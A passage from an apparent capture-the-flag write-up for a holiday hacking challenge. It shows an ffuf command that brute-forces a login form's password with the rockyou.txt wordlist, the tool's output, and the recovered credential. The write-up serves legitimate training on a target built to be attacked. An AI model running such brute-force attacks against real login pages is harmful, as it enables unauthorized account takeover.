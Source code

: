 `Invalid password`! Time to repeat the fuzzing process, but this time I will be using the good ol' `rockyou.txt` [wordlist](https://tools.kali.org/password-attacks/wordlists).

Updated fuzzing command:
```bash
$ ffuf -w /usr/share/wordlists/rockyou.txt -u https://hackyholidays.h1ctf.com/secure-login -X POST -d "username=access&password=FUZZ" -fr "Invalid Password" -H "Content-Type: application/x-www-form-urlencoded" -t 100
```

Putting it into action (again):
```bash
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=access&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Invalid Password
________________________________________________

computer                [Status: 302, Size: 0, Words: 1, Lines: 1]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Gottem! The password for `access` is `computer`. Logging in, we see that we are not done yet:

<p align="center">